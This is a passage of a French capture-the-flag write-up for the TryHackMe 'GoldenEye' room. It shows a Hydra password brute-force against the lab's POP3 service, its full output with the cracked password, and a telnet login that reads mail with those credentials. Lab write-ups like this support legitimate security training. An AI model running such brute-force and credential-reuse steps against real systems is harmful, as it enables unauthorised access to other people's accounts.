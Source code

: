 ![page6](./Task1-06.png)

Dans les message on trouve un Dr Doak.   

La réponse est : doak   

**What was this users password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l doak -P ./fasttrack.txt pop3://goldeneye.thm:55007 -t 32
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-18 17:15:35
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 32 tasks per 1 server, overall 32 tasks, 222 login tries (l:1/p:222), ~7 tries per task
[DATA] attacking pop3://goldeneye.thm:55007/
[STATUS] 160.00 tries/min, 160 tries in 00:01h, 62 to do in 00:01h, 32 active
[55007][pop3] host: goldeneye.thm   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-18 17:16:41
```

En brute forçant le mot de passe avec hydra on le trouve.    

La réponse est : goat   

**Use this users credentials to go through all the services you have found to reveal more emails**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ telnet goldeneye.thm 55007
Trying 10.10.243.62...
Connected to goldeneye.thm.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
TOP 1 10
+OK
```